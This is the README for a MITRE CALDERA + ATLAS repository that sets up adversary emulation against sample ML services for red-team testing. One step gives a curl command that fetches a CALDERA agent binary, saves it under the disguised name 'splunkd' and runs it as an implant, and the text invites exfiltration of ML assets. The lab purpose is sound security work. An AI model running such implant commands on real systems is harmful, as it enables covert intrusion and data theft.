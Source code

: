 ## CALDERA + ATLAS

This repository brings together several projects to enable adversary emulation and red-teaming of machine learning (ML) systems. It configures the MITRE CALDERA&trade; docker image with MITRE ATLAS&trade; plugins and provides sample ML services and environments for testing.

If you want to jump right in and get hands on, run the [quick start demo script](#quick-start-demo).

### Summary of Projects:

[CALDERA](https://caldera.mitre.org/) is a cyber security platform designed to easily automate adversary emulation, assist manual red-teams, and automate incident response.

[MITRE ATLAS](https://atlas.mitre.org/) (The Adversarial Threat Landscape for AI Systems) is a knowledge base of adversary tactics, techniques, and procedures targeting ML systems.

Included ATLAS CALDERA Plugins:
- [Almanac](https://github.com/mitre-atlas/almanac): Adds the [ATLAS Navigator](https://mitre-atlas.github.io/atlas-navigator/) to CALDERA
- [Arsenal](https://github.com/mitre-atlas/arsenal): Implements ATLAS techniques as CALDERA Abilities and provides sample CALDERA Adversaries that target ML systems

[ML-Vulhub](https://github.com/mitre-atlas/ml-vulhub) is a collection of of scripts for intantiating ML-related services and modeling ML environments


### Basic Setup:

1.  Clone the repo:
```bash
git clone --recursive git@github.com:mitre-atlas/caldera-atlas.git
cd caldera-atlas
```

2. Build the CALDERA docker image:
```bash
docker-compose build
```

3. Run the CALDERA docker image with ATLAS plugins plugins (`almanac` and `arsenal`):
```bash
docker-compose up -d
```

4. Access the CALDERA interface at [localhost](https://localhost:8888).

The default username/password is `admin`/`admin`

5. Use CALDERA with the Almanac and Arsenal plugins.

If you aren't already familiar with CALDERA, start with the [CALDERA documentation](https://caldera.readthedocs.io/en/latest/Getting-started.html).

The Almanac and Arsenal plugins can be accessed under the Plugins heading on the left-hand navigation menu.

Arsenal populates CALDERA with new Abilities that implement ATLAS techniques. It also adds new Adversary Profiles that use ATLAS techniques target ML services and resources. More information is available in the [Arsenal documentation](https://github.com/mitre-atlas/arsenal).

6. Cleanup:
```bash
docker-compose down
```

### Example Usage with ML VulHub

[ML-Vulhub](https://github.com/mitre-atlas/ml-vulhub) is a companion project that provides sample ML-enabled services and environments.
This example models a compromised ML developer machine that has access to a private s3 bucket containing a model zoo and an internal ML model served with torchserve.

1. Startup CALDERA if it's not already running.
```bash
docker-compose up -d
```

2. Start a test environment from an example on ML VulHub.
```bash
cd ml-vulhub/envs/example-00-ml-dev

# perform build and initialization steps
docker-compose build
./init.sh

docker-compose up -d
```

3. Launch a Sandcat agent on the mldev container:
```bash
docker-compose exec mldev bash -c 'server=http://host.docker.internal:8888; curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download -o splunkd; chmod u+x splunkd; ./splunkd -server $server -group red -v'
```

4. Use the Abilities and Adversary Profiles provided by Arsenal to run an Operation targeting the ML services and resourcs in the sample environment.


What ML assets can you discover and exfiltrate? What ML services can you discover, target, and attack?

5. Cleanup:
Run `docker-compose down` from both the `caldera-atlas` and `ml-vulhub/envs/example-00-ml-dev` directories.

### Quick Start Demo
The provided `demo.sh` script is a "one-click" script to setup CALDERA with ATLAS plugins and a sample target environment for adversary emulation and red-teaming.

This will:
- build any/all docker containers to run the `caldera` app and start the server in a `tmux` session
- mount plugins at runtime of the docker container: `arsenal` , `almanac`
- build any/all docker containers to run and set up an initial "victim" using `ml-vulhub`

Run:
```bash
./demo.sh
```
